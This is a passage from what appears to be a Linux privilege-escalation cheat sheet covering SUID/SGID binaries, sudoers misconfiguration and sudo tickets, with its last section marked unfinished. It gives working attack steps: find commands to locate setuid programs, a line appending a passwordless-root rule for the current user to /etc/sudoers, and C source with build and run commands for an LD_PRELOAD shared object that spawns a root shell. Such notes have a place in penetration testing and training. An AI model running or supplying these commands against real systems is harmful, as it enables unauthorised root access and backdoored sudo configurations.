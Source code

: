 ```bash
find / -perm -u=s -type f -print 2>/dev/null # Search for program with the SUID
find / -perm -g=s -type f -print 2>/dev/null # Search for program with the SGID
```

For more information about that technique refer to [T1548.001 - Abuse Elevation Control Mechanism: Setuid and Setgid](https://attack.mitre.org/techniques/T1548/001/)

###### *If you don't know, now you know: [SUID](https://linux.die.net/man/2/setuid) & [SGID](https://linux.die.net/man/3/setgid)*

- **SUID** (**S**et owner **U**ser **ID** up on execution) is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs.
- **SGID** (**S**et owner **G**roup **ID** up on execution) same as SUID for groups.

#### Sudoers

The file /etc/sudoers and the files inside /etc/sudoers.d configure who can use sudo and how.

```bash
sudo -l # Check if they are scripts than once launch, they are run as root
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

If LD_PRELOAD is explicitly defined in the sudoers file, compile the following C code with *gcc -fPIC -shared -o shell.so shell.c -nostartfiles*

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
}
```

Then execute this payload like this

```bash
sudo LD_PRELOAD=/tmp/shell.so echo "Thomas"
```

#### tty_tickets,  env_reset & timestamp_timeout

> / / / To finish

When a user authenticates with sudo, a ticket is temporarily created that allows sudo to run without re-authentication for a short period of time.
If a user logs out and the ticket is not cleared, the ticket is reused when the user logs back in, and the user does not need to re-authenticate.

If tty_tickets is disabled, the requirement for sudo users to re‑authenticate is controlled by this policy and the adclient.sudo.clear.passwd.timestamp setting in the agent configuration file.
